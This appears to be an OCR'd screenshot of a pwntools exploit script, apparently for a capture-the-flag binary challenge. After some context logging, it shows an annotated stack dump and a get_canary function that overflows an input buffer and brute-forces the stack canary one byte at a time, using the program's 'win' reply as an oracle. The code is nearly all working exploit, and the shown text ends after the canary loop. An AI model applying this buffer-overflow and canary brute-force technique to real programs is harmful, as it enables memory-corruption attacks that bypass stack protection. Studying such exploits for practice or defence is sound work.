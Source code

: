 ```python
# set terminal window to use for gdb debugging
context.terminal = ['alacritty', '-e']

info("Context:")
info("exe: "+str(exe))
info("arch: "+str(context.arch))
info("bits: "+str(context.bits))
info("os: "+str(context.os))
info("endian: "+str(context.endian))
info("log_level: "+str(context.log_level))
info("terminal: "+str(context.terminal))

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================


# CANARY IN STACK:
# 16 bytes A
# 8 bytes guessed canary ending with \x00 to terminate strlen()
# 16 bytes padding to fill rest of user_input buffer
# 16 bytes A
# 8 bytes real canary
# 0x7ffef84be1b0  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  │AAAAAAAA│AAAAAAAA│
# 0x7ffef84be1c0  42 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  │B.......│........│ // guessed canary - starting with 0x42 (B)
# 0x7ffef84be1d0  00 00 00 00 00 00 00 00  41 41 41 41 41 41 41 41  │........│AAAAAAAA│
# 0x7ffef84be1e0  41 41 41 41 41 41 41 41  00 5a f4 e0 db 2e 68 8f  │AAAAAAAA│.Z....h.│ // real canary - starting with 0x00


# get the canary by guessing it byte by byte
def get_canary(io):
    guessed_canary = b"B"  # guessed canary ends with \x00, which would terminate strlen(), overwrite it with B

    for i in range(7):  # loop through 7 bytes of canary, 1 byte at a time, 8th byte is \x00
        for b in range(1, 256): # loop through all possible bytes

            payload = flat(
                b"A"*16,         # will be compared with random_data buffer
                guessed_canary,
                bytes([b]),      # single guessed byte
                b"\x00"*(40-16-len(guessed_canary)-1),  # fills rest of user_input buffer with \0x00 
                # 40 -> user_input buffer size, 16 -> random_data buffer size, -1 because of added 'B'
                b"A"*16,          # fills random_data buffer with A's
                b"B"              # overwrites real canary's \x00 with B
            )

            io.sendafter(b"secret!\n", payload)

            response = io.recvline().strip().decode()
            # print('payload: ', payload)
            # print('response: ', response, guessed_canary+bytes([b]))

            io.sendafter(b"(y/n)\n", b"y")

            if "win" in response:
                guessed_canary+=bytes([b])
                info("guessed "+str(i+1)+" bytes of canary: "+str(guessed_canary))
                break
```